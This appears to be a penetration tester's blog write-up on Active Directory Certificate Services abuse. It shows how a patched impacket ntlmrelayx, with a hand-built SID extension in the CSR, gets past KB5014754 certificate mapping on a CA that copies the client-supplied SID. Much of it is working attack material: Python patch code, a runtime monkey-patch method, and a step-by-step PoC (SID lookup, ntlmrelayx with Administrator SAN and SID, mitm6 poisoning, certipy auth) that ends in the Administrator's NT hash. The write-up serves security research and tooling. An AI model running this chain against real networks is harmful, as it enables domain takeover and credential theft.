




## The scenario

Let's start with the specific case that kicked all this off. On an engagement we ran into a certificate template vulnerable to ESC1: it let the requester specify an arbitrary Subject Alternative Name (`ENROLLEE_SUPPLIES_SUBJECT`) and was valid for client authentication. The ESC1 playbook is well known: you request a certificate putting the domain Administrator's UPN in the SAN and, with that certificate, you authenticate as them to pull their TGT and NT hash.

There was just one problem. The CA restricted who could enroll on that template: enrollment rights weren't open to `Domain Users` but limited to a specific group, and we had neither the password nor the hash of any account in that group. The template was exploitable, but we had nothing to request the certificate with.


That's where relay comes in. If you can't request the certificate yourself, have someone who can do it for you. With mitm6 we poisoned IPv6/DNS resolution on the segment to sit in the middle and capture the NTLM authentication of an account with enrollment rights; that authentication is relayed to the CA and a certificate with the Administrator's SAN is requested on its behalf. Abusing ADCS to escalate in Active Directory has been standard since Certified Pre-Owned, the Will Schroeder and Lee Christensen research that catalogued these abuse paths, the ones now known as ESC.

What has changed is the landscape. Microsoft has been hardening the binding between certificates and AD accounts, and techniques that worked perfectly a year ago now return errors that aren't immediately obvious. The one we hit in this case was this:



The certificate arrived. The CA issued it. The PFX is on disk. But authentication fails.

## KB5014754 and certificate mapping hardening

To understand the error you need to understand what changed. In May 2022, Microsoft released KB5014754, an update that modifies how domain controllers map a certificate to a user account during Kerberos PKINIT authentication.

The classic mapping was weak by design: the DC took the UPN from the `subjectAltName` field of the certificate and searched AD for the account whose `userPrincipalName` matched. This process doesn't verify that the authenticating account is actually the one listed in the certificate; it just does a name lookup. The attack vector is direct: if you can get the CA to issue a certificate with `SAN: UPN=Administrator@corp.local`, you can authenticate as Administrator even though the CA handed it to you because you were a different user with enrollment permissions.

KB5014754 introduces a strong mapping mechanism. When active, the DC requires the certificate to contain the SID of the account that will use it, embedded in a Microsoft-proprietary extension. If the SID is absent, or if it doesn't match the account's real SID in AD, authentication is rejected. The exact behavior depends on the `StrongCertificateBindingEnforcement` attribute on the DC:

- `0`: no enforcement, weak mapping, pre-KB5014754 behavior.
- `1`: compatibility mode, accepts without SID but emits an audit event.
- `2`: full enforcement, rejects if SID is missing or doesn't match.

Since February 2025, the default on updated DCs is `2`. In practice, any environment with patched DCs enforces this fully.

certipy v5, released by Oliver Lyak in 2024, added its own SID validation before sending the request to the KDC. The "Object SID mismatch" error we see above is certipy's local check, which detects that the certificate doesn't contain the SID extension and aborts before making the network call. The behavior is correct: if the cert reaches the DC without a SID, the DC would reject it anyway. certipy just fails faster and with a clearer message.

## The missing extension

The extension that resolves the problem has OID `1.3.6.1.4.1.311.25.2`, called `szOID_NTDS_CA_SECURITY_EXT` in Microsoft's nomenclature. It contains the certificate subject's SID encoded as a nested ASN.1 structure.

The ASN.1 hierarchy of the extension is:

```
Extension {
    extnID: OID(1.3.6.1.4.1.311.25.2)
    extnValue: OCTET STRING {
        GeneralNames ::= SEQUENCE {
            GeneralName ::= [0] CONSTRUCTED {   -- otherName
                type-id: OID(1.3.6.1.4.1.311.25.2.1)   -- NTDS_OBJECTSID
                value:   [0] EXPLICIT {
                    OCTET STRING(SID as UTF-8)
                }
            }
        }
    }
}
```

The OID `1.3.6.1.4.1.311.25.2.1` is `szOID_NTDS_OBJECTSID`. The unexpected part is the value: it's not the SID in binary format, but the string representation (`S-1-5-21-...`) encoded as UTF-8 inside an `OCTET STRING`. This can be verified by dumping a certificate issued by a Windows CA, and it's the same encoding used by tools like Certify or Certipy.

In a normal enrollment the CA itself generates this extension from the authenticated requester, not the client. The attack hinges on a configuration nuance: in the analyzed scenario the CA copies the `szOID_NTDS_CA_SECURITY_EXT` extension from the CSR into the issued certificate without verifying that the SID belongs to the authenticated account. That missing validation is precisely what makes the attack viable. Worth being clear about it: it's not that KB5014754 can be bypassed in general, but that this CA trusts a value it should be generating itself. When the DC receives that certificate during PKINIT, it extracts the SID from the extension and verifies it matches the SID of the authenticating account.

## Why ntlmrelayx doesn't include it

ntlmrelayx has two ADCS attack paths:

- HTTP (ESC8): via `httpattacks/adcsattack.py`, which relays NTLM authentication against the CA's web endpoint (`/certsrv/certfnsh.asp`).
- RPC (ESC11): via `rpcattack.py`, using the MS-ICPR protocol over DCE/RPC directly against the `IcertPassage` interface.

In both cases, CSR generation falls to `ADCSAttack.generate_csr()`:

```python
@staticmethod
def generate_csr(key, CN, altName, csr_type=crypto.FILETYPE_PEM):
    req = crypto.X509Req()
    if CN:
        req.get_subject().CN = CN
    if altName:
        req.add_extensions([crypto.X509Extension(
            b"subjectAltName", False,
            b"otherName:1.3.6.1.4.1.311.20.2.3;UTF8:%b" % altName.encode()
        )])
    req.set_pubkey(key)
    req.sign(key, "sha256")
    return crypto.dump_certificate_request(csr_type, req)
```

It uses pyOpenSSL to build the CSR. The problem isn't that OpenSSL can't encode the OID (it encodes arbitrary OIDs just fine), but that pyOpenSSL's high-level API for CSR extensions is very limited: it can't build an extension with the nested ASN.1 structure that `szOID_NTDS_CA_SECURITY_EXT` requires, a Microsoft-proprietary OID outside the X.509 standard.

The result: ntlmrelayx gets the certificate, the CA issues it with the correct UPN in the SAN, but without the `1.3.6.1.4.1.311.25.2` extension. The DC rejects it because there's no SID. certipy rejects it even before reaching the DC.

## The fix: manual DER encoding + UnrecognizedExtension

The `cryptography` library (distinct from pyOpenSSL, though they coexist in the same environment) offers `x509.UnrecognizedExtension`, which allows adding arbitrary extensions to a CSR or certificate by passing raw DER bytes directly. It doesn't rely on the high-level API: we build the ASN.1 structure by hand and the library embeds it as-is.

To use it, the `CertificateSigningRequest` must be built with `cryptography` instead of pyOpenSSL, and the extension value must be encoded by hand.

DER TLV (Tag-Length-Value) encoding is mechanical. A minimal helper function:

```python
def _tlv(tag, value):
    n = len(value)
    if n < 0x80:
        return bytes([tag, n]) + value
    elif n < 0x100:
        return bytes([tag, 0x81, n]) + value
    else:
        return bytes([tag, 0x82, (n >> 8) & 0xff, n & 0xff]) + value
```

And for encoding OIDs, where the first component is compressed as `40 * a + b` and the rest are encoded in base 128 with the high bit set on all octets except the last:

```python
def _oid_encode(oid_str):
    parts = [int(x) for x in oid_str.split('.')]
    first = 40 * parts[0] + parts[1]

    def arc(n):
        if n < 128:
            return bytes([n])
        r = []
        while n:
            r.insert(0, n & 0x7f)
            n >>= 7
        for i in range(len(r) - 1):
            r[i] |= 0x80
        return bytes(r)

    c = arc(first)
    for p in parts[2:]:
        c += arc(p)
    return _tlv(0x06, c)
```

With those two primitives, the SID extension becomes:

```python
def _encode_sid_ext(sid):
    """
    Encodes the value of szOID_NTDS_CA_SECURITY_EXT (1.3.6.1.4.1.311.25.2).
    Structure: GeneralNames → OtherName[NTDS_OBJECTSID] → [0] EXPLICIT { OCTET STRING(sid) }
    """
    oct_s = _tlv(0x04, sid.encode('utf-8'))           # OCTET STRING
    val   = _tlv(0xa0, oct_s)                         # [0] EXPLICIT
    oid   = _oid_encode("1.3.6.1.4.1.311.25.2.1")    # NTDS_OBJECTSID
    on    = _tlv(0xa0, oid + val)                     # [0] CONSTRUCTED (OtherName)
    return _tlv(0x30, on)                             # GeneralNames SEQUENCE
```

And the UPN in the SAN, which also needs manual encoding when using the `cryptography` builder:

```python
def _encode_upn_san(upn):
    utf8 = _tlv(0x0c, upn.encode('utf-8'))            # UTF8String
    val  = _tlv(0xa0, utf8)                           # [0] EXPLICIT
    oid  = _oid_encode("1.3.6.1.4.1.311.20.2.3")     # msUPN
    on   = _tlv(0xa0, oid + val)                      # [0] CONSTRUCTED (OtherName)
    return _tlv(0x30, on)                             # GeneralNames SEQUENCE
```

The patched version of `generate_csr` keeps the original no-SID path intact and adds an alternative path when `altSid` is provided:

```python
@staticmethod
def generate_csr(key, CN, altName, csr_type=crypto.FILETYPE_PEM, altSid=None):
    LOG.info("Generating CSR...")

    if altSid is None:
        # Original path — pyOpenSSL, no SID extension
        req = crypto.X509Req()
        if CN:
            req.get_subject().CN = CN
        if altName:
            req.add_extensions([crypto.X509Extension(
                b"subjectAltName", False,
                b"otherName:1.3.6.1.4.1.311.20.2.3;UTF8:%b" % altName.encode()
            )])
        req.set_pubkey(key)
        req.sign(key, "sha256")
        return crypto.dump_certificate_request(csr_type, req)

    # SID path — cryptography + UnrecognizedExtension
    private_key = key.to_cryptography_key()

    builder = x509.CertificateSigningRequestBuilder()
    builder = builder.subject_name(x509.Name([
        x509.NameAttribute(NameOID.COMMON_NAME, CN or "")
    ]))

    if altName:
        builder = builder.add_extension(
            x509.UnrecognizedExtension(
                oid=ObjectIdentifier("2.5.29.17"),
                value=_encode_upn_san(altName)
            ),
            critical=False
        )

    builder = builder.add_extension(
        x509.UnrecognizedExtension(
            oid=ObjectIdentifier("1.3.6.1.4.1.311.25.2"),
            value=_encode_sid_ext(altSid)
        ),
        critical=False
    )

    csr = builder.sign(private_key, hashes.SHA256(), default_backend())

    if csr_type == crypto.FILETYPE_PEM:
        return csr.public_bytes(Encoding.PEM)
    else:
        return csr.public_bytes(Encoding.DER)
```

Two things to note. First, `key.to_cryptography_key()` converts the pyOpenSSL key to a `cryptography` object, which is what the builder expects. The key type is compatible; only the wrapper changes. Second, `x509.UnrecognizedExtension` in `cryptography >= 36.0` can be used in CSRs as well as certificates. The version in impacket's pipx environment is 46.x, so there are no compatibility issues.

## The patch injection mechanics (during development)

Before integrating the change into the fork, the patch had to be validated against a real impacket install without touching its files. The quickest way to test it was to inject the patched class at runtime. I'm documenting it because it's a handy technique for iterating on any ntlmrelayx attack without reinstalling anything.

The trickiest part isn't the code itself but where to hook it. ntlmrelayx's `attacks/__init__.py` dynamically imports every module in the directory at startup and registers the attack classes in the `PROTOCOL_ATTACKS` dictionary. This means a simple late monkey-patch of `sys.modules` isn't enough: the dictionary already has the original class registered before we can replace it.

The clean solution: let ntlmrelayx's normal startup happen, wait until `PROTOCOL_ATTACKS` is populated, and then replace the `"RPC"` entry with the patched class:

```python
from impacket.examples.ntlmrelayx.attacks import PROTOCOL_ATTACKS

# Loads the patched RPCAttack class from a local file
PROTOCOL_ATTACKS["RPC"] = _load_patched_rpcattack()
```

Where `_load_patched_rpcattack()` uses `importlib.util.spec_from_file_location` to load the patched module without touching impacket's package system. It works because `PROTOCOL_ATTACKS` stores classes, not instances: `RPCAttack` isn't instantiated until a connection arrives at runtime, long after import, so replacing the dictionary entry before the first relay arrives is enough.

Once the patch was validated this way, the change was integrated directly into the impacket fork. That's why the PoC below runs with a plain `ntlmrelayx.py` and the `--altSid` flag, no wrapper or injection: the code now lives inside the tool itself.

## PoC

The full chain at a glance, before getting into the commands:



### 1. Get the target user's SID

The first thing we need is the SID of the account we're going to impersonate (here, the Administrator), because that's exactly what has to be embedded in the certificate. From any domain account:

```bash
# With impacket
impacket-lookupsid 'DOMAIN/user:pass'@DC-IP | grep -i "domain admin\|administrator\| 500$"

# With rpcclient
rpcclient -U 'user%pass' DC-IP -c "lookupnames Administrator"
```

### 2. Start the relay

With the SID in hand, we launch the patched ntlmrelayx pointed at the CA, passing the Administrator's SAN along with its SID (`--altSid`):

```bash
sudo ntlmrelayx.py -6 \
  -t rpc://CA.corp.local \
  -rpc-mode ICPR \
  -icpr-ca-name 'CORP-CA' \
  --adcs \
  --template VulnTemplate \
  --altname 'Administrator@corp.local' \
  --altSid 'S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-500' \
  --no-multirelay \
  -smb2support
```

### 3. Coerce the authentication with mitm6

All that's left is for an account with enrollment permissions to authenticate against the relay. With mitm6 we poison IPv6/DNS resolution on the segment to trigger it:

```bash
sudo mitm6 -i eth0 -d corp.local
```

When it bites, the relay does its part: it generates the CSR with the SID extension embedded, the CA issues the certificate with it, and you get the PFX on disk. That's the piece that was missing, a certificate with the correct SID.



From there, authentication is the usual flow. With that PFX, `certipy auth` performs PKINIT against the DC and, since the SID now matches, it validates and returns the NT hash of the impersonated user:



## Code and PR

The full patch is available in my impacket fork, branch [feature/adcs-sid-extension](https://github.com/JosuPalacios99/impacket/tree/feature/adcs-sid-extension), and has been submitted as a pull request to the upstream repository at [fortra/impacket#2222](https://github.com/fortra/impacket/pull/2222).

The four modified files relative to the original are:

- `impacket/examples/ntlmrelayx/attacks/httpattacks/adcsattack.py`: DER helpers + `generate_csr` with altSid path
- `impacket/examples/ntlmrelayx/attacks/rpcattack.py`: passes `altSid` to `generate_csr`
- `impacket/examples/ntlmrelayx/utils/config.py`: `altSid` field in `NTLMRelayxConfig`
- `impacket/examples/ntlmrelayx.py`: `--altSid` argument

## References

- [Certified Pre-Owned — Schroeder & Christensen, SpecterOps](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [KB5014754 — Certificate-based authentication changes on Windows domain controllers](https://support.microsoft.com/kb/5014754)
- [certipy v5 — ly4k](https://github.com/ly4k/Certipy)
- [impacket — fortra](https://github.com/fortra/impacket)
- [ESC11 — ICPR relay — Compass Security](https://www.compass-security.com/fileadmin/Research/2022_ESC11_ADCS_Relay_via_ICPR.pdf)
